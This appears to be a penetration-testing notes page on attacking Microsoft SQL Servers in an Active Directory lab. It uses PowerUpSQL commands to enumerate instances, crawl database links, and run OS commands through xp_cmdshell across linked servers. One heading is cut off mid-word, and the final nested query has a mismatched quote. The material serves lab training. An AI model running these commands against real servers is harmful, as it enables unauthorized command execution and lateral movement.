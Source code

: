 # MSSQL Servers

## Tools

[PowerUpSQL ](https://github.com/NetSPI/PowerUpSQL)includes functions that support SQL Server discovery, weak configuration auditing, privilege escalation on scale, and post exploitation actions such as OS command execution.

{% embed url="https://github.com/NetSPI/PowerUpSQL" %}

## Enumeration

```powershell
# SPN
Get-SQLInstanceDomain

# Check Access
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

# Information
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

### Database Links

A database link allows a SQL Server to access external data sources like other SQL Servers and Data Source Objects (OLE DB).

In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures even across forest trusts.

<pre class="language-powershell"><code class="lang-powershell"><strong># find links to remote machine
</strong>Get-SQLServerLink -Instance dcorp-mssql -Verbose
select * from master..sysservers

# database links
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from master..sysservers'')')

</code></pre>

## Abuse

Databa

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```

